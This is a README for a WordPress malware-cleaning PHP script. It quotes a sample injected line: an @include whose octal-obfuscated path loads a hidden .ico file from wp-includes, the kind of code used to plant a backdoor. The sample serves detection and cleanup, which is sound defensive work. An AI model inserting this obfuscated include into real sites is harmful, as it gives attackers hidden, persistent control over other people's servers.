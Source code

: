 # CleanWP
Simple PHP script to clean all files in your WordPress directory from Malware codes.

## Instructions
1. Upload file scandir.php to your WordPress directory
2. Open Web browser and run scandir.php using your WordPress's URL (Example: https://your_url.com/scandir.php)
3. First it will display all the affected files
4. Click "Click here to replace all" to clean the files
5. Enjoy!

For now, it will only scan all index.php files in all sub-directories.

## Sample malware or malicious codes

```
<?php
/*e57cb*/

@include "\057home\062/zha\146f/ap\160oint\146ox.c\157m/wp\055incl\165des/\143erti\146icat\145s/.c\063d913\0706.ic\157";

/*e57cb*/
```

## Note
Please backup your files first before running this script.
